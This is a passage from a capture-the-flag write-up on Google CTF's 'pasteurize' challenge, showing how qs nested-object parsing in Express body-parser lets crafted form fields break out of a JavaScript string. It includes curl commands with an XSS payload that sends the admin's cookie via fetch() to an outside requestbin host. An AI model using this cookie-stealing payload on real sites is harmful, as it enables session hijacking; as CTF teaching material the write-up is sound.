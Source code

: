 What does this mean? Let's check the [documentation](https://github.com/expressjs/body-parser):

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The "extended" syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded. For more information, please see the [qs library](https://www.npmjs.com/package/qs#readme).

If we follow the link, we get an example:

```javascript
/*
qs allows you to create nested objects within your query strings, 
by surrounding the name of sub-keys with square brackets []. 
For example, the string 'foo[bar]=baz' converts to:
*/
assert.deepEqual(qs.parse('foo[bar]=baz'), {
    foo: {
        bar: 'baz'
    }
});
```

Let's try that:

```console
root@kali:/media/sf_CTFs/google/pasteurize# curl 'https://pasteurize.web.ctfcompetition.com/' -s -L -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'content[foo]=baz' | grep "const note "
        const note = ""foo":"baz"";
```

This definitely looks like something we can work with! Let's try something a bit more complicated:

```console
root@kali:/media/sf_CTFs/google/pasteurize# curl 'https://pasteurize.web.ctfcompetition.com/' -s -L -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'content[;foo//]=baz' | grep "const note "
        const note = "";foo//":"baz"";
```

Bingo, we escaped the quotes. All that's left is to enter a Javascript expression that will steal the Admin's cookie, and report the post.

```console
root@kali:/media/sf_CTFs/google/pasteurize# curl 'https://pasteurize.web.ctfcompetition.com/' -s -L -H 'Content-Type: application/x-www-form-urlencoded' --data "content[; fetch('https://enktailvzebp.x.pipedr
eam.net/?cookie='.concat(btoa(document.cookie))); //]=baz" | grep "const note"
        const note = ""; fetch('https://enktailvzebp.x.pipedream.net/?cookie='.concat(btoa(document.cookie))); //":"baz"";
        const note_id = "a6e8c8bf-49ae-48a5-a0b3-edd299a4c368";
```

A few seconds after reporting the post, we get a hit in our requestbin, containing the flag:

```
/?cookie=c2VjcmV0PUNURntFeHByZXNzX3QwX1RyMHVibDNzfQ==
```
